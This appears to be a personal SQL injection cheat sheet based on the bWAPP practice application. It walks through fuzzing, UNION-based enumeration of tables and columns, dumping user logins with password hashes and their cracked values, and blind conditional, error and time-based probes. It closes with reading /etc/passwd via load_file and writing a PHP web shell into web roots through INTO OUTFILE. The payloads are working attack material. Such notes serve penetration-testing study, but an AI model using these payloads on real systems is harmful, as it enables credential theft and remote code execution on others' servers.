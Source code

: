 # SQL overview

* null session:

mysql -u root -h ip 

# SQL injection

## Payloads Cheat Sheet

My cheat sheet shows the methods of SQL injection. To effectively apply them, you need to know and use payloads as well. Here is more than enough: 

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based
* https://portswigger.net/web-security/sql-injection/cheat-sheet

## Injection types

Here are 5 types of injection to look for (source: [OWASP](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection))

* Union Operator: can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
* Boolean: use Boolean condition(s) to verify whether certain conditions are true or false.
* Error based: this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
* Out-of-band: technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
* Time delay: use database commands (e.g. sleep) to delay answers in conditional queries. It is useful when attacker doesn’t have some kind of answer (result, output, or error) from the application.

All examples are based on bWAPP (free pentesting practice tool) examples.

## Test for SQLi vulnerability

* Fuzz using special characters the inputs under test:

```
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content
```

## Example of UNION based sql injection 
This works if you get feedback from the server to your requests.


1. Get number of columns

```
1' order by 1; -- -- ok
1' order by 2; -- -- ok
...
1' order by 7; -- -- ok
1' order by 8; -- -- error -> 7 columns available

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

#using NULL is benficial if it is not certain if data types in columns match

```
Other faster methods (if error messages are enabled):

```
' UNION SELECT 1,2,3,4,5,6,7; -- --	True

1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100; -- --

```


2. identify vulnerable columns

```
-' union all select 1,2,3,4,5,6,7; -- --

Title 	Release 	Character 	Genre 	IMDb
2 	3 	5 	4 	Link

#columns 2,3,4,5 are vulnerable
```

Get Database version:

```
-' union all select 1,@@version,3,4,5,6,7; -- -

#5.0.96-0ubuntu3 > 5 -> continue with table name enumeration

#for database name

-' union all select 1,database(),3,4,5,6,7; -- -

#we get bWAPP

#time for table name

-' union all select 1,group_concat(0x7c,table_name,0x7C),3,4,5,6,7 from information_schema.tables where table_schema=database(); -- -

#output: blog,heroes,movies,users,visitors

#get column names from users table

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_schema=database(); -- -

#output for column names: id,owner,entry,date,id,login,password,secret,id,title,release_year,genre,main_character,imdb,tickets_stock,id,login,password,email,secret,activation_code,activated,reset_code,admin,id,ip_address,user_agent,date

#columns of particular table 
#encode table name "users" as decimal using: http://www.unit-conversion.info/texttools/ascii/

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_name=char(117,115,101,114,115); -- -

#output of columns in "users": id,login,password,email,secret,activation_code,activated,reset_code,admin,uid,name,pass,mail,theme,signature,signature_format,created,access,login,status,timezone,language,picture,init,data

#lets get login and password 

-' union all select 1,group_concat(login,0x7C,password,0x7C,admin),3,4,5,6,7 from users; -- -

#output.
#A.I.M.|6885858486f31043e5839c735d99457f045affd0|1,bee|6885858486f31043e5839c735d99457f045affd0|1,ok|#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb|0
#obviously column with 1 indicates admin
#cracking with hashcat delivers:
#6885858486f31043e5839c735d99457f045affd0:bug
#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb:ok


```
## Blind SQL Injection

See also: https://owasp.org/www-community/attacks/Blind_SQL_Injection

### Detection of Blind SQL entry point

#### Conditional Response

```
# returns some result
…xyz' AND '1'='1

# no result
…xyz' AND '1'='2
```
If the first letter of Password is 's' then this query is going to return some Conditional Statement different from normal reponse
`' OR SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

#### Error based 

```
1' or 1=1# returns no erroe

1' or 1=2# returns error or negative response
```

If the first letter of Password is 's' then this query is going to return some Error

`' OR (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`


#### Time based 

If time based injection is valid then for TRUE conditions certain amount of delay shall be present.

```
' AND sleep(15)#


Benchmark:

' AND BENCHMARK(10000000,SHA1(1337))#
```
Sometimes it will be needed to concatenate the strings to make it work. Try it if everything else fails:

`|| sleep(15)--`

##### Exploitation of time based BLIND SQLi

1. Detect it time based sqli by using time delays:

`'; IF (1=1) WAITFOR DELAY '0:0:10'--` shall cause a time delay

If it doesn't work use payload cheat sheets mentioned above to identify correct datase type.


# Get shell from sql-injection


## Load files
```
UNION SELECT 1, load_file(/etc/passwd) #

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```

## Write files
```
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```









